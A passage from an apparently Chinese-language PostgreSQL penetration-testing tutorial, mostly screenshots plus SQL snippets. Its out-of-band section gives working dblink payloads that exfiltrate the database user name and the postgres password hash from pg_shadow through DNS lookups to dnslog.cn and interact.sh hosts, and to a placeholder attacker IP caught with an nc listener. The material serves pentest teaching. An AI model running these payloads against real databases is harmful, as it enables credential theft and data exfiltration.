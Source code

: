 ![](../../img/postgresql-pentest/40.png)

![](../../img/postgresql-pentest/41.png)

![](../../img/postgresql-pentest/42.png)

```sql
-- 查询一下修改是否成功
select name,setting,short_desc from pg_settings where name like 'log_%';
```

![](../../img/postgresql-pentest/43.png)

进入靶机,可以看到 f0x 目录已经创建

![](../../img/postgresql-pentest/44.png)

---

# PostgreSQL 带外数据

```sql
-- 开启 dblink 扩展
CREATE EXTENSION dblink

-- 获取当前数据库用户名称
SELECT * FROM dblink('host='||(select user)||'.djw0pg.dnslog.cn user=test dbname=test', 'SELECT version()') RETURNS (result TEXT);
```

![](../../img/postgresql-pentest/21.png)

```sql
-- 查询当前密码
SELECT * FROM dblink('host='||(SELECT passwd FROM pg_shadow WHERE usename='postgres')||'.c8jrsjp2vtc0000rwce0grjcc3oyyyyyb.interact.sh user=test dbname=test', 'SELECT version()') RETURNS (result TEXT);
```

![](../../img/postgresql-pentest/34.png)

```sql
-- nc 监听
nc -lvv 4444

select dblink_connect((select 'hostaddr=x.x.x.x port=4445 user=test password=test sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres')));
```

![](../../img/postgresql-pentest/35.png)

---
